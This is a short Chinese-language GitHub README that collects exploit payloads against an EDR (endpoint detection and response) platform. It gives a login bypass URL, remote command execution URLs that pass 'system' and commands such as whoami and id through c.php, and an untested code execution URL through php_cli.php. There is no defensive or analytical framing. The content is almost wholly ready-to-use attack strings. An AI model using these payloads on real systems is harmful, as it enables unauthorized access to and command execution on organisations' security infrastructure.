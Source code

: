 # EDR终端检测响应平台漏洞合集
` @Time : 2020年8月21日, 0021 15:17`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
###  免密码登陆 Payload
```angular2html
使用浏览器访问
https://ip:prot/ui/login.php?user=任意字符
```
[原文链接](https://blog.csdn.net/qq_32393893/article/details/108116171)

### 远程命令执行
```angular2html
使用浏览器访问
https://ip:prot/tool/log/c.php?strip_slashes=system&host=whoami

https://ip:prot/tool/log/c.php?strip_slashes=system&host=id&path=id&row=id&limit=id
```
[原文链接](https://blog.csdn.net/Alexhcf/article/details/108081912)

### 远程代码执行
```angular2html
https://ip:prot/tool/php_cli.php?code=phpinfo();
未复现成功
```
[原文链接]()




> 乾坤未定,你我皆是黑马